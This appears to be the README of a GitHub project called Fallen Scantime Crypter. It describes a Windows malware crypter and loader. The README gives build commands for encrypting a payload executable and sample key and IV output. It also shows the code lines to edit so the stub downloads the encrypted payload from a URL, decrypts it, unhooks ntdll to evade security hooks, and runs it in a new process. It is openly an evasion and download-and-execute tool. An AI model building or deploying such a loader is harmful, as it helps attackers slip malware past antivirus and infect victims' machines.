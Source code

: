 # FSTC-August-2024
Fallen Scantime Crypter: August 2024

## Notes

Download encrypted file from URL 

Decrypt the file & save to disk

Loads ntdll from disk

Maps sections between new ntdll & hooked ntdll / unhooks

Runs PE (from the download) in a new process

Scantime only

For personal use & research only

## Usage

Build.exe will take an original PE, encrypt with a key and save the new file. You can skip the option key if you want a randomly generated key to be used.
```
Usage: Build.exe <path_to_original_PE> <path_to_output_encrypted_file> [32_byte_key]
Example: Build.exe test_payload.exe encrypted_payload.bin 0123456789abcdef0123456789abcdef
```

After building you will see output in your terminal like this:
```
[*] Generated random 32-byte key: 7ddd25d6c2317d1ecd78cf6b301e3e22866e3458926b9e5badcb42f409684d83
BYTE key[] = { 0x7d, 0xdd, 0x25, 0xd6, 0xc2, 0x31, 0x7d, 0x1e, 0xcd, 0x78, 0xcf, 0x6b, 0x30, 0x1e, 0x3e, 0x22, 0x86, 0x6e, 0x34, 0x58, 0x92, 0x6b, 0x9e, 0x5b, 0xad, 0xcb, 0x42, 0xf4, 0x09, 0x68, 0x4d, 0x83 };
[*] Generated random 16-byte IV: 3036fc85a678d7bff499112ea8257b13
BYTE iv[] = { 0x30, 0x36, 0xfc, 0x85, 0xa6, 0x78, 0xd7, 0xbf, 0xf4, 0x99, 0x11, 0x2e, 0xa8, 0x25, 0x7b, 0x13 };
[*] File encrypted successfully.
```

Once you encrypt your original program with Build, you should upload it to a server and get the public URL.

Then, go to FSTC project/code and edit the main file ( int main() ) for these 3 lines:
```
LPCWSTR url = L"https://github.com/LNodesL/FSTC-August-2024/raw/218a78376b7249fc6231fd96a04827e1ffbfae3d/resources/Payload-Demo.fstc";
BYTE key[] = { 0x8b, 0xc9, 0x62, 0xf5, 0xb6, 0x2c, 0x4d, 0x43, 0xb3, 0xc0, 0x8e, 0xec, 0x55, 0x1d, 0x40, 0x77, 0x49, 0xea, 0x98, 0x44, 0x9d, 0x76, 0xc9, 0xec, 0xeb, 0x66, 0x94, 0x91, 0x98, 0xa3, 0x65, 0xb2 };
BYTE iv[] = { 0x2d, 0xb4, 0xa8, 0xab, 0x77, 0x7b, 0x42, 0x84, 0x80, 0x7c, 0xb9, 0x66, 0x31, 0x48, 0xae, 0x43 };
```

Now compile FSTC, which will download your payload from the URL, decrypt, attempt to unhook ntdll, and create a process for the PE as-is.


## Future Development

- save to tmp file instead of to cwd

- allow builder to modify the final FSTC.exe program's resources or other data to make it easier to build for a new payload/URL without re-compiling
